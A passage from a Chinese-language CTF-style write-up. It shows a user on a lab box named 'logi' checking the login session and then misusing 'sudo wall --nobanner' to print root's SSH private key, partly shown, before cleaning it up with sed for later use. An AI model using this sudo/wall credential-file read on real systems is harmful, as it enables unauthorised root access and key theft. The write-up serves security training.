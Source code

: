 验证登录会话状态：

```bash
ame@logi:~$ tty
/dev/pts/1
ame@logi:~$ w
 07:45:44 up  3:10,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ame      pts/1    192.168.205.128  07:45    0.00s  0.00s  0.00s w
ame@logi:~$ who
ame      pts/1        2025-09-30 07:45 (192.168.205.128)
```

现在 `utmp` 中有了正式的登录记录，可以使用 wall 命令了。

## 读取 root SSH 私钥

使用 wall 命令的 `--nobanner` 参数读取 root 用户的 SSH 私钥：

```bash
ame@logi:~$ sudo wall --nobanner "/root/.ssh/id_rsa"
                                                                             
-----BEGIN OPENSSH PRIVATE KEY-----                                          
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn       
NhAAAAAwEAAQAAAgEAnaT0B+kb64e8z3am+GYUeZQ91emxMpRnMWpP0kh3fZCoBJFf5PNX       
...
yCbxr8E9aazVZ8mMJ9t4EAAAADAQABAAACACjO25D0qhKVZ6341A43NpOmaT9nqEQkoHXt       
...
XtnMsZxZlM0I2hbKQVAAABAQDITkel25RoCYjYRG/oE2G7qcMwdUrVsas5o0cXdhav3oot121T       
...
yFwO2nf1b1w/AAAACXJvb3RAbG9naQE=                                             
-----END OPENSSH PRIVATE KEY-----                                            
```

成功获取到 root 的 SSH 私钥，但需要注意私钥末尾有多余的空格和字符。

## 私钥处理

将私钥保存到文件并清理格式：

```bash
ame@logi:~$ vim tmp
ame@logi:~$ cat -A tmp 
-----BEGIN OPENSSH PRIVATE KEY-----                                            $
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn         $
...
-----END OPENSSH PRIVATE KEY-----   $
```

使用 sed 命令清理私钥格式：

```bash
ame@logi:~$ cat tmp | sed 's/\s\+$//; s/\$//g' > id_rsa
ame@logi:~$ chmod 600 id_rsa 
```
